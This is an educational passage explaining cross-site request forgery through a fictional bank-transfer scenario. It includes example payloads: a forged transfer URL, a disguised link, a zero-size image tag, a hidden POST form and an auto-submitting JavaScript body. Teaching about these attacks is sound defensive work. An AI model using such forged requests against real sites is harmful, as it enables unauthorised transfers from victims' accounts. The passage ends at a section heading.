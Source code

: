 `GET http://bank.com/transfer.do?acct=BOB&amount=100 HTTP/1.1`

Maria now decides to exploit this web application vulnerability using Alice as the victim. Maria first constructs the following exploit URL which will transfer $100,000 from Alice’s account to Maria’s account. Maria takes the original command URL and replaces the beneficiary name with herself, raising the transfer amount significantly at the same time:

`http://bank.com/transfer.do?acct=MARIA&amount=100000`

The [social engineering](https://en.wikipedia.org/wiki/Social_engineering_(security)) aspect of the attack tricks Alice into loading this URL when Alice is logged into the bank application. This is usually done with one of the following techniques:

* sending an unsolicited email with HTML content
* planting an exploit URL or script on pages that are likely to be visited by the victim while they are also doing online banking

The exploit URL can be disguised as an ordinary link, encouraging the victim to click it:

`<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>`

Or as a 0x0 fake image:

`<img src="http://bank.com/transfer.do?acct=MARIA&amount=100000" width="0" height="0" border="0">`

If this image tag were included in the email, Alice wouldn’t see anything. However, the browser *will still* submit the request to bank.com without any visual indication that the transfer has taken place.

A real life example of CSRF attack on an application using GET was a [uTorrent exploit](https://www.ghacks.net/2008/01/17/dos-vulnerability-in-utorrent-and-bittorrent/) from 2008 that was used on a mass scale to download malware.

#### POST scenario

The only difference between GET and POST attacks is how the attack is being executed by the victim. Let’s assume the bank now uses POST and the vulnerable request looks like this:  

    POST http://bank.com/transfer.do HTTP/1.1

    acct=BOB&amount=100
Such a request cannot be delivered using standard A or IMG tags, but can be delivered using a FORM tags:  

    <form action="http://bank.com/transfer.do" method="POST">

    <input type="hidden" name="acct" value="MARIA"/>
    <input type="hidden" name="amount" value="100000"/>
    <input type="submit" value="View my pictures"/>

    </form>
This form will require the user to click on the submit button, but this can be also executed automatically using JavaScript:  

    <body onload="document.forms[0].submit()">

    <form...
#### Other HTTP methods
